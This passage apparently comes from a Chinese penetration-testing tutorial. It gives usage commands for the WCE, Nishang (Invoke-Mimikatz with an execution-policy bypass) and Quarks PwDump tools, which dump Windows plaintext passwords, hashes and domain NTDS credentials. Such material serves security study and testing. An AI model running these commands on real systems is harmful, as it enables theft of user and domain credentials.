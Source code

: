 抓取用户的明文密码

`Wce.exe -w`

抓取hash值

`wce.exe -l`

`wce.exe -w > hash.txt   #保存在txt文档`

## 2、Nishang
### 简介

[Nishang](https://github.com/samratashok/nishang)是一款针对PowerShell的渗透工具，
除了可以抓取密码还可以进行端口扫描、提权、密码爆破等功能，
这款工具依赖系统权限（有点小瑕疵）。

### 使用

Posershell既然是一个框架，那我们需要将nishang导入到这个框架当中，运行脚本需要一定的权限，
`powershell`默认的执行策略是`Restricted`，这个`Restricted`是不允许运行任何脚本的。
在`PowerShell`执行

`Get-ExecutionPolicy   #命令来查看默认的策略组`
`Set-ExecutionPolicy remotesigned    #将策略值改为remotesigned,这样我们就可以运行脚本`

下载的`nishang`，继续执行

```
Import-Module .\nishang\nishang.psm1   #导入
Get-PassHashes   # 抓取hash值
powershell –exec bypass –Command "& {Import-Module'C:\Windows\System32\WindowsPowerShell\v1.0\nishang\Gather\Invoke-Mimikatz.ps1';Invoke-Mimikatz}"
# 抓取明文密码
```

## 3、Quarks PwDump
### 简介
Quarks PwDump 是一款开放源代码的Windows用户凭据提取工具，
它可以抓取windows平台下多种类型的用户凭据，包括：本地帐户、域帐户、缓存的域帐户和Bitlocker。

QuarksPwDump.exe参数说明：

```
-dhl 导出本地哈希值

-dhdc导出内存中的域控哈希值

-dhd 导出域控哈希值，必须指定NTDS文件

-db 导出Bitlocker信息，必须指定NTDS文件

-nt 导出ntds文件

-hist 导出历史信息，可选项

-t 导出类型可选默认导出为John类型。

-o 导出文件到本地
```
